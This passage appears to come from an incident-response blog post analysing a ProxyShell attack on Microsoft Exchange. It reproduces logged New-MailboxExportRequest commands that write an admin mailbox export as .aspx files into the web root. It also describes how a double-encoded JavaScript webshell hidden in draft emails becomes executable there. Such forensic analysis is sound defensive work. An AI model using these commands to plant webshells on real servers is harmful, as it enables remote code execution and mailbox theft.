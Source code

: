MSExchange Management "MailboxExportRequest" artifact snapshot:

```python
New-MailboxExportRequest\n-Mailbox 'admin@xxxxx.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet_client\\rksgzvccymzrvmcv.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'wefwefwef''\nxxxxx..com/xxxxx-OU/xxxxx IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n10544

----------------------------------------------------------------------------------------

New-MailboxExportRequest\n-Mailbox 'admin@xxxxx.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet_client\\rljmxnolhfarldjz.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'erertte.aspx''\nxxxxx..com/xxxxx-OU/xxxxxIT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868

----------------------------------------------------------------------------------------

New-MailboxExportRequest\n-Mailbox 'admin@xxxxx.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet_client\\bbder.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'xazldaoqixdqcfwq''\nxxxxx..com/xxxxx-OU/xxxxx IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868

```

Moreover, the malicious actor exported 'admin@[xxxxx.com](http:/darksys0x.com/)'  mailbox to the path [“C:\\inetpub\\wwwroot\\aspnet_client\\]on exchange server. This results in a PST file with .aspx extension: rksgzvccymzrvmcv.aspx. Under normal circumstances, “rksgzvccymzrvmcv.aspx” would have been capable of executing javascript code since the attached file “FileAttachment.txt” in the draft email is usually a webshell, however, since this was the first email created by the malicious actor, refer to the below figure. created draft emails have a webshell in the attachment.

![The Export email that contains a webshell](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/proxyshell/Untitled_3.png)

The Export email that contains a webshell

The attachment “FileAttachment.txt” is a webshell with javascript code, and it runs on the server. The javascript code is first encoded for the PST, then encoded again using base64. The first encoding is for the Personal Storage Table (PST) data. According to Microsoft Developer Network the PST [A1] format uses Permutative Encoding (NDB_CRYPT_PERMUTE). When the PST file is written to disk, the encoded webshell is decoded with base64 algorithm, then it is decoded again for NDB_CRYPT_PERMUTE[A2] , this results in plain javascript code, refer to Figure 5.
Moreover, all drafts emails created by the malicious actor contain the .comme webshell. For instance, the PST file “hwxydlmzwkyuqtzv.aspx” contains JavaScript code with RCE:

